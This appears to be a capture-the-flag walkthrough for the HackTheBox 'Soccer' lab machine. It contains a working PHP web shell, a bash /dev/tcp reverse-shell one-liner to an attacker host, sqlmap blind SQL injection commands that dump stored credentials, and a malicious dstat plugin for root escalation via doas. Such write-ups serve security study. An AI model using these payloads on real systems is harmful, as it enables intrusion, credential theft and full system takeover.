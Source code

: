 

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed three open ports:
```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
```

The HTTP server on port 80 was redirecting to http://soccer.htb, requiring a hosts file update:
```bash
echo "10.129.173.77 soccer.htb" | sudo tee -a /etc/hosts
```

### Web Enumeration
Visiting the main website on port 80 revealed a standard template site for a soccer club. Further examination of the site structure led to the discovery of a Tiny File Manager installation at:
```
http://soccer.htb/tiny/
```

Additionally, I identified a potential subdomain from the website content:
```bash
echo "10.129.173.77 soc-player.soccer.htb" | sudo tee -a /etc/hosts
```

Visiting this subdomain revealed a ticketing system for soccer matches that communicated with a WebSocket server on port 9091.

## Gaining Initial Access

### Tiny File Manager
I attempted to access the Tiny File Manager with default credentials and was successful:
- **Username**: admin
- **Password**: admin@123

This provided access to the file system with upload capabilities. I noticed that the `/tiny/uploads` directory was writable.

### PHP Web Shell
I created a simple PHP web shell:
```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

I uploaded this shell to `/tiny/uploads/shell.php` using the file manager's upload functionality. I then accessed it at:
```
http://soccer.htb/tiny/uploads/shell.php?cmd=id
```

This confirmed command execution as the www-data user.

### Reverse Shell
I set up a netcat listener on my attack machine:
```bash
nc -lvnp 4444
```

Then executed a reverse shell payload through the web shell:
```
http://soccer.htb/tiny/uploads/shell.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.42/4444 0>%261'
```

This provided a reverse shell as the www-data user.

## Lateral Movement

### WebSocket SQL Injection
While enumerating the system, I discovered a Node.js application running on port 9091. This was the WebSocket server that was communicating with the soc-player.soccer.htb subdomain.

Examining the web application, I identified a ticket checking feature that took an ID parameter and returned ticket information. This parameter appeared vulnerable to SQL injection.

I used SQLMap to confirm the vulnerability:
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3
```

SQLMap confirmed both boolean-based and time-based blind SQL injection vulnerabilities:
```
Parameter: JSON id ((custom) POST) 
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "-1533 OR 9982=9982"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "1234 AND (SELECT 5403 FROM (SELECT(SLEEP(5)))gMBy)"}
```

### Database Enumeration
I used SQLMap to enumerate the available databases:
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --threads 10
```

This revealed several databases, including a non-default one called 'soccer_db':
```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

I then enumerated the tables in the soccer_db database:
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --threads 10
```

This revealed a single table called 'accounts':
```
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Finally, I dumped the contents of the accounts table:
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --threads 10
```

This revealed credentials for a user named 'player':
```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

### SSH Access
With the discovered credentials, I was able to establish an SSH connection:
```bash
ssh player@soccer.htb
```

This provided a shell as the player user.

## Privilege Escalation

### SetUID Binary Enumeration
I searched for SetUID binaries that could potentially be exploited:
```bash
find / -perm -4000 2>/dev/null
```

This revealed an unusual SetUID binary: `/usr/local/bin/doas` - an alternative to sudo typically found on OpenBSD systems.

### Doas Configuration
I searched for the doas configuration file:
```bash
find / -name doas.conf 2>/dev/null
```

This led me to `/usr/local/etc/doas.conf`, which contained:
```
permit nopass player as root cmd /usr/bin/dstat
```

This indicated that the player user could run the dstat command as root without a password.

### Dstat Plugin Exploitation
Research on dstat revealed that it supports custom plugins written in Python. These plugins are loaded from several directories, including `/usr/local/share/dstat/`.

I checked if I could write to this directory:
```bash
ls -la /usr/local/share/dstat/
```

Confirming it was writable, I created a malicious dstat plugin:
```bash
echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_exploit.py
```

I then executed dstat with my custom plugin using doas:
```bash
doas /usr/bin/dstat --exploit
```

This provided a root shell, successfully completing the privilege escalation.

```bash
root@soccer:/home/player# id
uid=0(root) gid=0(root) groups=0(root)
```